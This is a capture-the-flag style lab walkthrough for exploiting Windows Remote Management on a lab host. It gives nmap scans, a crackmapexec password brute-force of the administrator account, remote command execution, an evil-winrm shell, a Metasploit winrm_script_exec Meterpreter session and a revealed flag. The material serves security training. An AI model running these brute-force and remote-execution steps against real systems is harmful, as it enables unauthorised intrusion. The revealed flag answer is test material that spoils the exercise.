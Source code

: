 # 🔬WinRM

## Lab 1

> 🔬 [WinRM: Exploitation with Metasploit](https://attackdefense.com/challengedetails?cid=2026)
>
> - Target IP: `10.4.30.175`
> - **WinRM** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.30.175

nmap --top-ports 7000 10.4.30.175
```

```bash
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

```bash
nmap -sV -p 5985 10.4.30.175
```

```bash
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

![nmap](assets/image-20230315000010576.png)

### CrackMapExec Brute-force

- Use [`crackmapexec`](https://www.kali.org/tools/crackmapexec/) tool to confirm WinRM is running on port `5985`

```bash
crackmapexec
```

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

![crackmapexec WinRM](assets/image-20230315000524275.png)

- Execute specific Windows commands

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "systeminfo"
```

![crackmapexec WinRM](assets/image-20230315000751847.png)

### evil-WinRM Shell

- Get a command shell session using `evil-winrm` tool

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.4.30.175
```

![evil-winrm](assets/image-20230315001019987.png)

### Meterpreter Session

```bash
msfconsole
```

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.4.30.175
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

![Metasploit winrm_script_exec](assets/image-20230315001646402.png)

<details>
<summary>Reveal Flag: 🚩</summary>


`3c716f95616eec677a7078f92657a230`

![](assets/image-20230315001135557.png)

</details>

------

